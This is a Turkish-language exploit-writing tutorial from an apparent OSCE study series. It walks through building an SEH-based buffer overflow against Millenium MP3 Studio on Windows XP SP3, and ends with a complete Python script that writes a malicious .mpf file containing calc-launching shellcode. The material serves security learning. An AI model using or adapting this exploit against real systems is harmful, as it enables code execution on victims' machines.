






# Exploit Writing Tutorial Part 4 : SEH Based Exploits

`OS` : Windows XP SP3

`Vulnerable App`: [Millenium MP3 Studio](../vulnerable_softwares/Millenium%20MP3%20Studio/millennium.exe)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video - OSCE Hazırlık 0x0A | Corelan.be Overflow 0x05 SEH and Moaar !` : https://www.twitch.tv/videos/705125530

`Video - OSCE Hazırlık 0x0A | Corelan.be Overflow 0x05 SEH and Moaar Part 2` : https://www.twitch.tv/videos/705213599

`Source` : https://www.corelan.be/index.php/2009/07/28/seh-based-exploit-writing-tutorial-continued-just-another-example-part-3b/

`Not` : Öncelikle eğer `SEH Based Exploit` hakkında herhangi bir bilginiz yoksa [bir önceki yazıyı](./Corelan.be_Overflow_0x03.md) okumanızı öneririm.

Programımız `.mpf` uzantılı dosyaları açabilmekteymiş. Biz de bu uzantıya sahip bir dosyanın içerisine exploitimizi yazarak hesap makinesi çalıştırmaya çalışacağız. Exploitimizin giriş kısmını hemen hızlıca yazalım

```python
# Millenium MP3 Studio SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

exploit = ""

# File path
file = "XP/exploit.mpf"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Evet bu kısmı hazırladıktan sonra programımıza 5000 adet `A` karakteri gönderelim bakalım crash olacak mı ? Burda programımız `http://`'ye göre birşeyleri parse ediyor veya biryerlere istek atıyor sanırım. Bu yüzden en başa `http://` yazmamız gerekecek

```python
...
padding = b"http://" + b"A"*5000
exploit = padding
...
```

Programımızı debugger üzerinde başlatalım ve dosyamızı açalım.





Ve gördüğümüz üzere nextSEH ve SEH alanına `A` karakterlerimizi yazmayı başardık. O zaman hızlıca offsetimizi hesaplayalım.

```bash
>>> from pwn import *
>>> offset = cyclic_gen()
>>> offset.get(5000)
```



Şimdi değerimizi bulalım

```bash
>>> offset.find(b'pcab')
(4105, 0, 4105)
>>>
```

4105 karakterden sonra `nextSEH` adresine yazabiliyormuşuz. Bunu bir de test edelim...

```python
# Millenium MP3 Studio SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

offset = 4105
padding = b"http://"
padding += b"A"*offset
nextSEH = b"BBBB"
SEH = b"CCCC"

exploit = padding + nextSEH + SEH

# File path
file = "XP/exploit.mpf"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```





İstediğimiz değerleri başarılı bir şekilde nextSEH ve SEH üzerine yazabildik.  Artık nextSEH üzerine yazacağımız `jmp` işlemini ve SEH üzerine yazacağımız `pop pop ret` komutunu gerçekleştiren adresi bulabiliriz.

Ancak burda `jump` işlemi sırasında dikkat etmemiz gereken birşey var, o da `0012F934`'de `null` karakterler olması. Shellcode bunun üzerine yazılacak mı yoksa arada `null` karakterler mi kalacak diye bir kontrol edelim.

```python
...
exploit = padding + nextSEH + SEH + b"D"*50
...
```


Dşündüğümüz gibi arada `null` karakterler kalıyor. O yüzden `SEH` adresinden hemen sonraya Shellcode yazıp sıçrayamayız. `null` karakterlerden sonra yazıp oraya sıçramamız gerekecek. Yaklaşık bi 26 byte ileriye yazmak gerek ancak sağlam olsun diye biz 32 byte uzağa shellcode yazalım. JMP işleminde de 32 byte sıçrayarak `NOP` karakterlerin son kısımlarına denk gelmiş olacağız tahminen.

```python
...
nextSEH = b"\xeb\x20\x90\x90" # \xeb = jmp , \x20 = 32 byte
...
```

Şimdi `mona.py` yardımı ile `pop pop ret` işlemi yapan bir adres bulalım

    !mona seh -cpb '\x00' komutu ile içerisinde null byte olmayan `pop pop ret` işlemini gerçekleştiren adresleri getirecektir.



SafeSEH, ASLR korumaları `false` olan ve ret 'den sonra herhangi birşey yazmayan bir adres seçelim.

Daha sonra exploitimizi tamamlayalım.

```python
# Millenium MP3 Studio SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

offset = 4105
padding = b"http://"
padding += b"A"*offset

nextSEH = b"\xeb\x20\x90\x90" # jmp 0x20
SEH = b"\x87\x50\x01\x10"     # pop esi, pop edi, ret - xaudio.dll

exploit = padding + nextSEH + SEH + b"\x90"*32 + calc

# File path
file = "XP/exploit.mpf"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Ve çalışmaya hazır :)


